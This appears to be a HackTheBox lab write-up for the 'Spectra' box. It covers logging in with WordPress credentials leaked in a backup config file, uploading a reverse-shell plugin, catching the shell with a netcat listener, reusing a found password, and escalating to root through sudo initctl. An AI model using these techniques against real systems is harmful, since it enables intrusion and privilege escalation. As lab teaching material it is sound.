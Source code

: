 ```yaml
---
title: Spectra writeup
date: 2022-07-11 15:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "wordpress", "initctl"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/spectra/
image: # Thumbnail 
  src: Spectra.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
This was an easy box that focused on enumerating a wordpress site, getting access as admin and then installing a malicious php plugin that gave a reverse shell. Once in on the box, a password for another user could be found which had sudo rights to run `initctl`. This could be exploited by changing the config file into running arbitrary commands.
## Foothold
We start out by checking out the site:

![](welcome.png)

If we go to the issue tracker we are greeted with a wordpress website. 

![](wordpress.png)

We can also go into the testing directory, which has directory listing enabled. 

![](testing.png)

If we view the source code for the `wp-config.php.save` file, we get some credentials.

![](creds.png)

We can then login with the credentials `administrator:devteam01`

As the administrator of the wordpress site we can upload a zip file which contains a malicious plugin. I just used a standard php-reverse shell, zipped it and then uploaded it on to the wordpress site. 

That sead it is important that the plugin contains the headers 
```console
/*
Plugin Name: WordPress Maintanance Plugin
Plugin URI: wordpress.org
Description: WordPress Maintenance Activities
Author: WordPress
Version: 1.0
Author URI: wordpress.org
*/
```
At the top of the script otherwise it will not unzip and install the plugin. The actual content of the header can of course be changed as long as the fields are kept the same. We can then go to the plugin menu and activate our plugin, getting a reverse shell.

![](plugins.png)

```console
──(bitis㉿workstation)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.76.40] 34568
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 Intel(R) Xeon(R) Gold 5218 CPU @ 2.30GHz GenuineIntel GNU/Linux
 13:41:13 up 20 min,  0 users,  load average: 0.14, 0.06, 0.07
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ 
```

## Pivot
As the nginx user, we find an interesting file labelled `/etc/autologin/passwd` with the contents of `SummerHereWeCome!!`. We try this password on the users on the machine, until we successfully login as katie.

## Privilege escalation
Katie has sudo rights to `/sbin/initctl`. We can edit the config file found under `/etc/init/test.conf` so that arbitrary commands are being run as root. 
```console
katie@spectra /etc/init $ cat test.conf 
description "Test node.js server"
author      "katie"

start on tmp
task
exec cat /root/root.txt > /tmp/output
katie@spectra /etc/init $ sudo /sbin/initctl emit tmp
katie@spectra /etc/init $ cat /tmp/output 
d44519713b889d5e1f9e536d0c6df2fc
```
Rooted!